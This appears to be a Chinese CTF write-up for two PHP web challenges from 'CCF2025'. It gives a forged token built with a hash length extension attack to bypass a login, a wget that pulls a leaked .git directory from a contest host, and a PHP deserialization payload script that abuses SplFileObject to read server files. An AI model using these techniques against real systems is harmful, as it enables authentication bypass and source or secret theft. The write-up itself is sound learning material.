






+++
title = "CCF2025"
slug = "ccf2025"
description = "nop带我玩"
date = "2025-08-02T14:46:27"
lastmod = "2025-08-02T14:46:27"
image = ""
license = ""
categories = ["赛题"]
tags = ["php"]
+++

## easylogin

拿到源码

```php
<?php
function generateToken($salt, $message){
    if($salt == "" || $message == "") {
        return false;
    }
    return sprintf("%s.%s", base64_encode($message), md5($salt . $message));
}
function validateToken($token, $salt) {
    list($payload, $hash) = explode(".", $token);
    $message = base64_decode($payload);
    if(md5($salt . $message) == $hash) {
        return $message;
    }
    return false;
}
session_start();
@$salt = $_SESSION["salt"];
if($salt == "") {
    $salt = $_SESSION["salt"] = uniqid();
    $defaultToken = generateToken($salt, "guest");
    setcookie("token", $defaultToken);
}

@$token = $_REQUEST["token"];

$greeting = "";
if ($token && $token != "") {
    $message = validateToken($token, $salt);
    if($message !== false) {
        $greeting = "Wellcome: " . $message . PHP_EOL;
        if ($message !== "guest") {            
            $greeting .= getenv("FLAG");
        }
    }else{
        $greeting = "Login failure.";
    }
}
?>
```

`uniqid()`生成的`$salt`固定为13位，直接hash长度拓展攻击即可，网上有的脚本

https://github.com/shellfeel/hash-ext-attack





```
Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJAAAAAAAAAAYWRtaW4=.fdda2e231c688be38eeebdbe1031c19a
```

## serp

git泄露，用githacker恢复失败了，用lazygit成功

```bash
wget -r http://124.133.253.44:33147/.git
```

https://github.com/jesseduffield/lazygit

把exe放在`git`目录下双击运行即可，查看commit发现应该是要读取`f1a9.php`



```php
//index.php
<?php
include("./posts.php");
$posts=[new Post("test","test")];
$posts=unserialize(strval($_COOKIE["posts"]));

if($_POST["post"]){
    $post=(new Maker("Post",$_POST["post"]))->getInstance();
    $posts[]=$post;
    setcookie("posts",serialize($posts));
}
```

```php
//posts.php
<?php
class Post {
    public $title;
    public $content;
    public function __construct($title, $content) {
        $this->title=$title;
        $this->content=$content;
    }
    public function __toString() {
        return $this->title. "/" . $this->content;
    }
}
class Maker{
    public $model = "Post";
    public $args=["Title","Contents"];
    protected $obj=null;
    public function __construct($model,$args) {
        $this->model=$model;
        $this->args=$args;
    }
    public function getInstance(){
        if($this->obj==null){
            $this->obj=new $this->model(...$this->args);
        }
        return $this->obj;
    }
    public function __toString() {
        return "object(". $this->model."){". strval($this->getInstance()) ."}";
    }
    public function __destruct() {
        $this->obj=null;
    }
}
```

简单反序列化，直接打就可以了，这里的唯一细节是`...$this->args`，会使得你传入的数组变成正常的两个参数，但是我始终做不出来，后面发现我其实是少了一段关键代码



这里会触发`__toString()`，那么就有办法来进行反序列化了



```php
<?php
class Post {
    public $title;
    public $content;
    public function __construct($title, $content) {
        $this->title = $title;
        $this->content = $content;
    }
    public function __toString() {
        return $this->title . "/" . $this->content;
    }
}
class Maker {
    public $model = "Post";
    public $args = ["Title", "Contents"];
    protected $obj = null;
    public function __construct($model, $args){
        $this->model = $model;
        $this->args = $args;
    }
    public function getInstance() {
        if($this->obj == null) {
            $this->obj = new $this->model(...$this->args);
        }
        return $this->obj;
    }
    public function __toString() {
        return "object(". $this->model ."){" . strval($this->getInstance()) . "}";
    }
    public function __destruct() {
        $this->obj = null;
    }
}

$a = new Maker('SplFileObject',['f1a9.php','r']);
$c = new Maker('SplFileObject',['index.php','r']);
$b = [new Post($a,$c)];
echo urlencode(serialize($b));

```


